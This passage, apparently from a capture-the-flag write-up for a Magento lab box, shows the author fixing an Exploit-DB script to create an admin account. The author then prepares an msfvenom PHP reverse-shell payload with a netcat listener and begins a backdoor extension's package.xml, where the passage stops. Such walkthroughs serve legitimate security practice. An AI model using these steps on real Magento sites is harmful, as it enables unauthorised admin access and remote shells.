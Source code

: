 `cp /usr/share/exploitdb/exploits/xml/webapps/37977.py .`

Looking at the code we can see it looks like it's leveraging one of the vulnerabilities listed in the Checkpoint article, so we're on the right track. 
The exploit has a bunch of waffle in it, so this needs to be trimmed first. If you do this and run it it will fail. Time to look more closely at the code.

This is because the URL it tries to build is incorrect. It tries It tries to build the URL with `/admin/Cms_Wysiwyg/directive/index/` but according to the article it should be `/index.php/admin/Cms_Wysiwyg/directive/index/`

So the original code looks like:
```python
target = "http://target.com/"
    
if not target.startswith("http"):
  target = "http://" + target
    
if target.endswith("/"):
  target = target[:-1]
    
target_url = target + "/admin/Cms_Wysiwyg/directive/index/"
```
and the fixed code (with some extraneous checks removed is):
```python
target = "http://10.10.10.140/"
target_url = target + "index.php/admin/Cms_Wysiwyg/directive/index/"
```
This worked fine and I could login to http://10.10.10.140/index.php/admin/ with the username and password of forme

### Getting a shell

We now need to get a shell on the box. I did have a play with the second exploit, _Magento CE \< 1.9.0.1 - (Authenticated) Remote Code Execution_, but I couldn't get this to work, though I revisited it later after rooting the box and the details are towards the end.

Having used a bunch of admin interfaces before I wondered if there was a way of uploading custom modules. A google suggest the the Connect Manager under /downloader did exactly that. I then had a google for "magento backdoor" and found this great article [https://dustri.org/b/writing-a-simple-extensionbackdoor-for-magento.html](https://dustri.org/b/writing-a-simple-extensionbackdoor-for-magento.html)

The process seemed straightforward, so I first created a suitable payload with msfvenom:

`msfvenom -p php/reverse_php LHOST=10.10.14.10 LPORT=1234 -f raw > backdoor.php`

and started the usual listener with `nc -lvp 1234`

I then created the package.xml file that's required
```xml
    <?xml version="1.0"?>
    <package>
    <name>backdoor</name>
    <version>1.3.3.7</version>
    <stability>devel</stability>
    <licence>backdoor</licence>
    <channel>community</channel>
    <extends/>
    <summary>Backdoor for magento</summary>
    <description>Backdoor for magento</description>
    <notes>backdoor</notes>
    <authors>
        <author>
            <name>bob</name>
            <user>bob</user>
            <email>bob@bobhaddock.org</email>
        </author>
```